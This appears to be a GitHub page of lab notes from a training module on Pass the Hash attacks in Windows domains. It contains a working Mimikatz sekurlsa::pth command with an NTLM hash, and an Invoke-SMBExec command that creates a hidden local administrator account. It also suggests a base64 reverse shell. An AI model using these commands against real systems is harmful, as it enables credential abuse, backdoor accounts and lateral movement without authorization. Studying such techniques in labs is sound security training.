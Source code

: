 # Pass the Hash with Mimikatz (Windows)
The first tool we will use to perform a Pass the Hash attack is [Mimikatz](https://github.com/gentilkiwi). Mimikatz has a module named sekurlsa::pth that allows us to perform a Pass the Hash attack by starting a process using the hash of the user's password. To use this module, we will need the following:

1) `/user` - The user name we want to impersonate.
2) `/rc4` or `/NTLM` - NTLM hash of the user's password.
3) `/domain` - Domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost, or a dot (.).
4) `/run` - The program we want to run with the user's context (if not specified, it will launch cmd.exe).

**Pass the Hash from Windows Using Mimikatz:**
```bash
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```

# Pass the Hash with PowerShell Invoke-TheHash (Windows)
Another tool we can use to perform Pass the Hash attacks on Windows is [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash) Authentication is performed by passing an NTLM hash into the NTLMv2 authentication protocol. Local administrator privileges are not required client-side, but the user and hash we use to authenticate need to have **administrative** rights on the target computer. 

When using `Invoke-TheHash`, we have two options: **SMB** or **WMI** command execution. To use this tool, we need to specify the following parameters to execute commands in the target computer:

1) Target - Hostname or IP address of the target.
2) Username - Username to use for authentication.
3) Domain - Domain to use for authentication. This parameter is unnecessary with local accounts or when using the @domain after the username.
4) Hash - NTLM password hash for authentication. This function will accept either LM:NTLM or NTLM format.
5) Command - Command to execute on the target. If a command is not specified, the function will check to see if the username and hash have access to WMI on the target.

Following example command on powershell will create user and add it to local administrator command:
```bash
Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```
![image](https://github.com/offensivecyber03/htbacademy/assets/71892943/e08a278a-ad9b-49bd-8d3d-287ebef07549)

## Idea !
We can also use powershell reverse shell by base64, for that we just need to specify command after `-Command` flag
